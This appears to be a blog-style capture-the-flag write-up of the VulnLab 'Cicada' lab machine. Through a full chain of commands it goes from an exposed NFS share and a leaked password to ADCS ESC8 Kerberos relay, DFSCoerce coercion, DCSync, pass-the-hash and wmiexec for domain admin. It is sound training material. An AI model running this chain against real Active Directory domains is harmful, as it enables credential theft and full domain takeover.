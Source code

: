 ```yaml
---
title: VulnLab -- Cicada Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC8,ADCS]
image:
    path: images/cicada-banner.png
---
```

# Cicada

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Cicada** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/cicada-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 389,9389,53,445,49667,49671,59847,3269,139,80,2049,5985,49678,49664,593,59873,59811,464 --min-rate=1000 10.10.88.205
```

![image.png](../images/cicada.png)

Now let’s enumerate the NFS

```bash
showmount -e 10.10.88.205
```

![image.png](../images/cicada%201.png)

> Notice that we have a profiles mount
> 

Now let’s go and mount it

```bash
sudo mount -t nfs 10.10.88.205:/profiles Mount
```

![image.png](../images/cicada%202.png)

now let’s see what is in the mount directory

```bash
tree .
```

![image.png](../images/cicada%203.png)

Now let’s open the marketing cicada from the user directory

```bash
eog marketing.png
```

![image.png](../images/cicada%204.png)

> Notice that the cicada contains a password
username: Rosie.Powell
password: Cicada123
> 

Now let’s go and try it

```bash
nxc smb bruno.vl -u 'Rosie.Powell' -p 'Cicada123'
```

![image.png](../images/cicada%205.png)

> Notice that it say STATUS_NOT_SUPPORTED which mean that the NTLM authentication is disabled
> 

So let’s try again with the Kerberos auth 

```bash
nxc smb cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k
```

![image.png](../images/cicada%206.png)

and we are authenticated

So let’s go and enumerate the certificate service

First let’s get a TGT for the user Rosie

```bash
impacket-getTGT cicada.vl/Rosie.Powell:'Cicada123' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%207.png)

Now let’s export the TGT

```bash
export KRB5CCNAME=Rosie.Powell.ccache
```

![image.png](../images/cicada%208.png)

Now let’s find the CA Templates

```bash
certipy-ad find -k -no-pass -debug -dc-ip dc-jpq225.cicada.vl -ns 10.10.88.205
```

![image.png](../images/cicada%209.png)

Now let’s go and get the output

```bash
cat 20250330050004_Certipy.txt | grep -i ESC8 -b50
```

![image.png](../images/cicada%2010.png)

> Notice that there is a template that is vulnerable to ESC8 which will help us relaying the Web remotely
> 

Now let’s start KRB Relay

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController -debug
```

![image.png](../images/cicada%2011.png)

Now let’s create a domain joined machine

```bash
bloodyAD -u 'rosie.powell' -p 'Cicada123' --host dc-jpq225.cicada.vl -k -d 'cicada.vl' add dnsRecord 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.8.5.233
```

![image.png](../images/cicada%2012.png)

Now let’s relay

```bash
python3 dfscoerce.py -k -no-pass -dc-ip dc-jpq225.cicada.vl 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2013.png)

Now let’s go back and check if we go anything

![image.png](../images/cicada%2014.png)

And we did so let’s go and try to authenticate to get the machine hash

```bash
certipy-ad auth -pfx 'unknown3732$.pfx' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%2015.png)

Now let’s go to perform DCSync and retrieve all the hashes

First let’s get a TGT for the Machine Account

```bash
impacket-getTGT cicada.vl/'dc-jpq225$':'' -dc-ip 10.10.88.205 -hashes :9323a945f6606ac6b44263f00218cfab
```

![image.png](../images/cicada%2016.png)

Now let’s export it

```bash
export KRB5CCNAME=dc-jpq225$.ccache
```

![image.png](../images/cicada%2017.png)

Now let’s DCSync

```bash
impacket-secretsdump -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2018.png)

Now let’s request a ticket for the administrator

```bash
impacket-getTGT cicada.vl/administrator:'' -dc-ip 10.10.88.205 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

![image.png](../images/cicada%2019.png)

now let’s export his ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/cicada%2020.png)

Now let’s try to wmi to the machine

```bash
impacket-wmiexec -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2021.png)

Now let’s go to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/cicada%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/cicada%2023.png)

That’s it for the **Cicada** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT